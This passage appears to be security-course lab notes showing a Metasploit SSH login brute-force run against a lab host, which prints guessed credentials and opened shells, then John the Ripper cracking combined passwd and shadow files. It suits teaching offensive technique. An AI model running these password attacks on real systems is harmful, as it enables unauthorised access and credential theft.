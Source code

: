 ```bash
  THREADS           1                                          yes       The number of concurrent threads (max one per host)
  USERNAME                                                     no        A specific username to authenticate as
  USERPASS_FILE                                                no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS      false                                      no        Try the username as the password for all users
  USER_FILE         /home/sec504/labs/passhydra/ulist.txt      no        File containing usernames, one per line
  VERBOSE           false                                      yes       Whether to print output for all attempts

Description:
  This module will test ssh logins on a range of machines and report 
  successful logins. If you have loaded a database plugin and 
  connected to a database this module will record successful logins 
  and hosts so you can track your access.

References:
  https://cvedetails.com/cve/CVE-1999-0502/

msf6 auxiliary(scanner/ssh/ssh_login) > run

[+] 172.30.0.25:22 - Success: 'jorestes:Admin123!@#' ''
[*] Command shell session 1 opened (172.30.0.1:45813 -> 172.30.0.25:22) at 2022-07-13 17:26:51 +0000
[+] 172.30.0.25:22 - Success: 'pemma:P@$$w0rd' ''
[*] Command shell session 2 opened (172.30.0.1:36015 -> 172.30.0.25:22) at 2022-07-13 17:27:17 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## 3.2 John the Ripper

__ALL UPPERCASE CHARACTERS IN JOHN PASS OUTPUT = LANMAN ALGO__

```bash
# Unshadow the shadow and passwd files
unshadow passwdcpy shadowcpy > combined

# Single crack mode
john --format=descrypt --single combined
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (descrypt, traditional crypt(3) [DES 512/512 AVX512F])
Remaining 4 password hashes with 4 different salts
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
harukori         (hrio)     
alucasta         (alucasta)    

# Using a wordlist
john --format=descrypt --wordlist=/usr/local/share/john/password.lst combined

Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (descrypt, traditional crypt(3) [DES 512/512 AVX512F])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Victoria         (lrenate)     
Front242         (jorestes)     
```